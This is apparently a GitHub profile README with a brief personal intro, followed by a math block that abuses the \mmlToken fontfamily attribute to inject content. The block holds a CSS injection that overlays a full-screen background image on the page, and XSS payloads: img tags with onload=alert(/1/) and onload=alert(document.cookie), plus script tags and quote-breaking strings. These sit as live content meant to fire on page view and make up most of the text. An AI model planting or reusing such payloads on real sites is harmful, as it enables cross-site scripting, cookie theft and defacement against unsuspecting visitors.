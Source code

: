 ### Hi there 👋
- 🔭 I’m currently working on some web projects
- 🌱 I’m currently learning PHP and MYSQL
- 🤔 I’m looking for help with html, css front-end code
- ⚡ Fun fact: Always online but not for the good reason
```math
\mmlToken{ms}[fontfamily="thxpewpew;background:color:red; z-index: -1; position: fixed; top: 0; left: 0; height: 100%; object-fit: cover; width: 100%; opacity: 0.7; background: url('https://github.com/NotTrueFalse/NotTrueFalse/blob/main/Figaro-Temparia-1694x847.jpeg?raw=true');"]{nowhere}
\mmlToken{ms}[fontfamily="thxpewpew;I'm in ur walls ;))"]{<YOOOO<></><img src='https://github.com/NotTrueFalse/NotTrueFalse/blob/main/Figaro-Temparia-1694x847.jpeg?raw=true' onload=alert(/1/)>}
\mmlToken{
<img src=x onload=alert(document.cookie) />
        <script>
            mo
        </script>
    }[fontfamily="imnothere;11111111111111111111111111111\"'><a></a>"]{demo}
```
